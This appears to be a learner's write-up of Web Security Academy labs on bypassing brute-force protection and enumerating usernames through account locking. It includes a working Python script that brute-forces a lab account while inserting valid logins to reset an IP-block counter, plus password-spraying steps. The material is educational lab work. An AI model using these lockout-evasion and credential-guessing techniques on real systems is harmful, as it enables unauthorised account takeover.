



## Flawed brute-force protection

It is highly likely that a brute-force attack will involve many failed guesses before the attacker successfully compromises an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

- Locking the account that the remote user is trying to access if they make too many failed login attempts
- Blocking the remote user's IP address if they make too many login attempts in quick succession

Both approaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic.

For example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

## Lab

In this lab we have to do good login one time and then try our brute force creds one time and we can do this in loop with any script!

So i made one python script and added all the passwords in List and checked them one by one!

==> Exploit :

```py
import requests

def goodReq():
	username = "wiener"
	password = "peter"
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"
	data = {
		'username':username,
		'password':password
	}
	r = requests.post(url=url,data=data)
	# print(r.text)
# goodReq()

def brute_force():
	username = "carlos"
	password = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"

	Flag = False
	count = 0
	i = 0
	while (Flag==False):
		if(count % 2 == 0):
			print("Trying bad request")
			r = requests.post(url=url,data={'username':username,'password':password[i]})
			if("Your username is:" in r.text):
				Flag = True
				print("Credentials Found!")
				print("Username: ",username)
				print("Password: ",password[i])
				print(r.text)
				break
			i += 1
			count += 1
		else:
			print("Trying good request")
			count += 1
			goodReq()
brute_force()
```

--> After running this exploit i found the password for `carlos` and solved the lab!



---

# Account locking

One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

Locking an account offers a certain amount of protection against targeted brute-forcing of a specific account. However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

For example, the following method can be used to work around this kind of protection:

1.  Establish a list of candidate usernames that are likely to be valid. This could be through username enumeration or simply based on a list of common usernames.
2.  Decide on a very small shortlist of passwords that you think at least one user is likely to have. Crucially, the number of passwords you select must not exceed the number of login attempts allowed. For example, if you have worked out that limit is 3 attempts, you need to pick a maximum of 3 password guesses.
3.  Using a tool such as Burp Intruder, try each of the selected passwords with each of the candidate usernames. This way, you can attempt to brute-force every account without triggering the account lock. You only need a single user to use one of the three passwords in order to compromise an account.

Account locking also fails to protect against credential stuffing attacks. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches. Credential stuffing relies on the fact that many people reuse the same username and password on multiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website. Account locking does not protect against credential stuffing because each username is only being attempted once. Credential stuffing is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just a single automated attack.

## Lab: Username enumeration via account lock

--> This website locks the account of a user if the user tries to login after 2-3 attempts so with this functionality or logic we can think that if the user account exists then only the website will lock the user account and that's the logic flow here. we can use this logic for username enumration

So we have provided the username list and password list. I firstly brute forced the username with the given username list and for password i tried the given password list with `cluster bomb` and also i have grepped the string `Invalid username or password` to check that which username is getting blocked

And after some time i found that the user `alabama` don't get the grepped string so that means the account got locked. And now we have one possible username called `alabama`



--> For password brute force we have to make the difference between requests `3` because the website is blocking us for 3 or more failed login attempts. But after some time i found that if your login is correct then website is displaying nothing.

So i again grepped the `Invalid username or password` and `You have made too many requests` strings and started the attack. And after some time i found that we don't get anything for password `buster` so it might be a correct password!



--> And after trying that password with the username i solved the lab!
